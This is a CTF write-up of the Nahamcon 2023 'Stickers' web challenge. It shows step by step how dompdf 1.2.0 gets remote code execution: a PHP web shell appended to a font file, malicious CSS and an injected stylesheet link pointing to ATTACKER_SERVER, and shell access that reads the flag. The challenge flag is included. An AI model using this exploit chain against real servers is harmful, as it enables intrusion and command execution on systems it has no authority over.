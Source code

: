 ```yaml
---
name: Stickers (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Stickers (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Stickers

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=247 "Nahamcon CTF 2023: Stickers (Web)")

## Description

> Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!
> Find the flag file in /flag.txt at the root of the filesystem.

## Solution

Tried various payloads in form, but there are some restrictions, e.g. email must be email format, others must be numbers. Successfully inserted `{{7 * 7}}` as the name, but it just rendered as text.

When we submit, the URL looks like: `http://challenge.nahamcon.com:32110/quote.php?organisation=%7B%7B7+*+7%7D%7D&email=a%40a.com&small=1&medium=1&large=1`

We get a PDF receipt, containing the information from the URL parameters.

Don't see the request in burp HTTP history, need to change the filter to include binary.

When we do that and scroll through the response, we find the version `þÿdompdf 1.2.0`.

Google it: https://github.com/positive-security/dompdf-rce

The PoC works, we just need to update URL's, MD5 hash and the payload. However, this article shows the full manual process with a more in depth explanation:
https://exploit-notes.hdks.org/exploit/web/dompdf-rce

Copy a true type font to php file.

{% code overflow="wrap" %}
```bash
find / -name "*.ttf" 2>/dev/null
cp /path/to/example.ttf ./evil.php
```
{% endcode %}

Add a shell at the bottom of the file.

{% code overflow="wrap" %}
```php
<?php system($_REQUEST["cmd"]); ?>
```
{% endcode %}

Create a malicious CSS, the info in here is important for accessing the uploaded PHP file, i.e. `/dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php`.

{% code overflow="wrap" %}
```css
@font-face {
    font-family: "evil";
    src: url("http://ATTACKER_SERVER/evil.php");
    font-weight: "normal";
    font-style: "normal";
}
```
{% endcode %}

Create a python web server and expose using ngrok.

{% code overflow="wrap" %}
```
sudo python -m http.server 80
ngrok http 80
```
{% endcode %}

Make a request containing the malicious stylesheet.

{% code overflow="wrap" %}
```bash
http://challenge.nahamcon.com:32110/quote.php?organisation=<link rel=stylesheet href='http://ATTACKER_SERVER/exploit.css'>&email=a%40a.com&small=1&medium=1&large=1
```
{% endcode %}

Calculate the MD5 of the malicious PHP URL.

{% code overflow="wrap" %}
```bash
echo -n http://ATTACKER_SERVER/evil.php | md5sum

b8e6174c9d5ee52c9b35647ffbd20856
```
{% endcode %}

Access the URL: http://challenge.nahamcon.com:32110/dompdf/lib/fonts/evil_normal_b8e6174c9d5ee52c9b35647ffbd20856.php?cmd=ls

Works! We can now call `cat /flag.txt` and receive the flag.

Flag: `flag{a4d52beabcfdeb6ba79fc08709bb5508}`
